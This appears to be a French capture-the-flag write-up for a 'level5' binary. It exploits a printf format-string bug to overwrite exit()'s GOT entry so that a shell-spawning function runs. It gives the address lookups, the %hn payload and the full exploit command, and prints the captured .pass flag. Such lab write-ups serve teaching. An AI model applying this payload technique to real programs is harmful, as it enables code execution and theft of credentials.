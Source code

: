 # Analyse du code

Il y a deux fonctions en plus du main. La premiere est n() appeler dans le main et la seconde o(), qui n'est appeler nul part.
o() execute un shelll
Grace a printf nous devons copier l'adresse de o() dans la GOT de a la place de exit; comme ca lorsque notre programme va faire un call de exit au lieu d'executer exit, il executera o()

# Preparation du payload

- Trouver l'adresse de O() : objdump -t ./level5 | grep o
    - 080484a4 g     F .text  0000001e              o → \xa4\x84\x04\x08
- Trouver l'adresse de exit() dans GOT : objdump -R ./level5
    - 08049838 R_386_JUMP_SLOT   exit  →  \x38\x98\x04\x08
- Trouver le décalage de notre chaîne sur la pile :
    - AAAA%4$p

Le adresse de o etant un nombre en decimal trop grand nous devons l'ecrire en deux fois, car on risque de corrompre les octes autour. avec %hn nous pouvons ecrire que 2 octets.
	- HIGH : 0x0804 - 8 = 2044
	- LOW :  0x84a4 - 2044 = 31912 ( -8 car ecriture de 2044... = 31904)

python -c "print('\x3a\x98\x04\x08' + '\x38\x98\x04\x08' + '%2044x%4\$hn%31904x%5\$hn')"


# Exploit
	echo $(python -c "print('\x3a\x98\x04\x08' + '\x38\x98\x04\x08' + '%2044x%4\$hn%31904x%5\$hn')") > /tmp/_
	cat /tmp/_ | ./level5
	$ cat /home/user/level6/.pass
	$ d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
